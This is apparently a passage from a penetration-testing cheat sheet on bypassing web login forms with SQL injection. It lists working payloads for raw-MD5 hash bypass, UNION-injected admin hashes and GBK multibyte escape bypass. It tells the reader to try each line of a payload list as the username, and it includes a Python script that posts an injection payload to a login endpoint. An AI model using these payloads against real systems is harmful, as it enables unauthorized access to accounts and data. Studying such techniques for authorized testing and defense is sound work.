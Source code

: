 List to try to bypass the login functionality:

<br>

### Raw hash authentication Bypass
---

```sql
"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
```

This query showcases a vulnerability when MD5 is used with true for raw output in authentication checks, making the system susceptible to SQL injection. Attackers can exploit this by crafting inputs that, when hashed, produce unexpected SQL command parts, leading to unauthorized access.

```sql
md5("ffifdyop", true) = 'or'6�]��!r,��b�
sha1("3fDf ", true) = Q�u'='�@�[�t�- o��_-!
```

<br>

### Injected hash authentication Bypass
---

```sql
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```

**Recommended list**:

You should use as username each line of the list and as password always: _**Pass1234.**_\
_(This payloads are also included in the big list mentioned at the beginning of this section)_

{{#file}}
sqli-hashbypass.txt
{{#endfile}}

<br>

### GBK Authentication Bypass
---

IF ' is being scaped you can use %A8%27, and when ' gets scaped it will be created: 0xA80x5c0x27 (_╘'_)

```sql
%A8%27 OR 1=1;-- 2
%8C%A8%27 OR 1=1-- 2
%bf' or 1=1 -- --
```

Python script:

```python
import requests
url = "http://example.com/index.php"
cookies = dict(PHPSESSID='4j37giooed20ibi12f3dqjfbkp3')
datas = {"login": chr(0xbf) + chr(0x27) + "OR 1=1 #", "password":"test"}
r = requests.post(url, data = datas, cookies=cookies, headers={'referrer':url})
print r.text
```
